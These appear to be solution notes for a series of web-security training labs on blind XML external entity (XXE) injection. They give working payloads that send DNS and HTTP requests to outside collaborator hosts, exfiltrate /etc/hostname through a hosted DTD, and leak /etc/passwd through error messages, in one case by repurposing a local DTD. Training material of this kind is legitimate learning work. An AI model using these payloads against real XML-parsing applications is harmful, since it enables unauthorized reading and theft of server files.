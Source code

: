 # Blind XXE vulnerabilities

## Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://4pu94og180nmlpwba4ryynwgk7qzeo.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://dxey5zylgsj6urlre84bcz7et5zvnk.burpcollaborator.net"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://h4mpvvu7dfq98uosfoe81bwag1mtai.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac2a1fd71e1c41bbc0373b1201d50007.web-security-academy.net/exploit.dtd"> %xxe; ]>
```

## Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac1e1f871ef12ff8c0468369018e004d.web-security-academy.net/exploit.dtd"> %xxe; ]>
```

## Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Solution:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```